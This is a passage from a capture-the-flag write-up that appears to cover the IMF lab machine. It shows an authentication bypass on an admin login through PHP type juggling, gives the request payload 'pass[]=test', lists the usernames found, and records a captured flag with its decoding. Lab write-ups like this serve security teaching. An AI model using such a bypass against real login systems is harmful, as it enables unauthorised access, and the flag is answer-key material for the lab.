 Accessing `http://imf.com/imfadministrator` revealed a login interface:

![Admin Login](images/Pasted%20image%2020251005161215.png)

## Authentication Bypass

### Type Juggling Vulnerability

The login form was vulnerable to PHP type juggling. By intercepting the request with Burp Suite and modifying the data types:

```
user=rmichaels&pass[]=test
```

**Usernames discovered during reconnaissance**:
- rmichaels
- akeith
- estone

### Successful Authentication

![Authentication Success](images/Pasted%20image%2020251005161215.png)

**Flag Retrieved**: `flag3{Y29udGludWVUT2Ntcw==}`
**Decoded**: continueTOcms
